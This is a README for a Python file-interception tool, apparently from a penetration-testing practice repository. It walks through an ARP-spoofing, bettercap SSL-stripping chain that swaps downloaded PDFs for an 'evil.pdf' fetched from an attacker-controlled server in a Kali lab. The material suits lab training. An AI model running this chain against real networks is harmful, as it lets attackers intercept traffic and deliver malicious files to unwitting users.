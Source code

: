 # File interceptor

## Requirements

* Root access
* Python 3
* Scapy and NetfilterQueue modules

## Usage

```shell
usage: file_interceptor.py [-h] [-e EXTENSION] [-d DESTINATION] [-u URL]

File replacement tool (use Bettercap hstshijack/hstshijack for sslstripping)

optional arguments:
  -h, --help            show this help message and exit
  -e EXTENSION, --extension EXTENSION
                        File extension
  -d DESTINATION, --destination DESTINATION
                        sslstrip, forward, or local
  -u URL, --url URL     Replacement url

Example: 
            file_interceptor.py # replace a .pdf with an evil.pdf file in location apache2 server on kali, sslstrip
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf            # replace a .pdf file
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf -d local   # test replacing a .pdf file
                                                                                                                      
```

## Kicking the tyres

* Choose what type of file to replace, and make sure you have a replacement file in `/var/www/html/evil/`
* Run the [arp_spoofer.py script](/arp_spoofer)

```shell
    @kali:~$ sudo python3 arp_spoofer.py
    [sudo] password for <user>: 
    [+] Setting forward
    [+] Packets sent: 63
```
* Run `bettercap` (also see the Troubleshooting section below)

```shell
  @kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack
```
* Run the `file_interceptor.py` script. Defaults are set to replace a .pdf with an evil.pdf file in the `/var/www/html/evil/` location of the Kali `apache2` server on the Kali VM, and using `sslstrip`.

```shell
  @kali:~$ sudo python3 file_interceptor.py 
```
And test file is replaced on Windows machine. Clear cache and history of browser first!

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)